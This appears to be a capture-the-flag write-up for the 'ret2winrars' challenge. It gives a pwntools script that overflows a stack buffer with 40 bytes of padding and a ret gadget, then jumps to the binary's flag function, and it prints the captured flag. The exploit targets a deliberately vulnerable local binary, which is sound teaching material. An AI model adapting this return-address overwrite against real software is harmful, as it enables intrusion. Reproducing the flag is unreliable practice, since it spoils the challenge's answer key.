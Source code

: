 # ret2winrars

### Solution
```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./ret2winrars')
rop = ROP(elf)

p = elf.process()
# p = remote('127.0.0.1', 1337)

def exploit():

    padding = b'A'*40
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['flag']

    payload = padding
    payload += p64(ret)
    payload += p64(flag)

    print(p.recvuntil(b': ').decode(encoding='ascii'))
    print(payload)
    p.sendline(payload)

    print(p.recvuntil(b'}').decode(encoding='ascii'))

def main():
	exploit()

if __name__ == "__main__":
	main()
```

**Flag:** `rarctf{0h_1_g3t5_1t_1t5_l1k3_ret2win_but_w1nr4r5_df67123a66}`
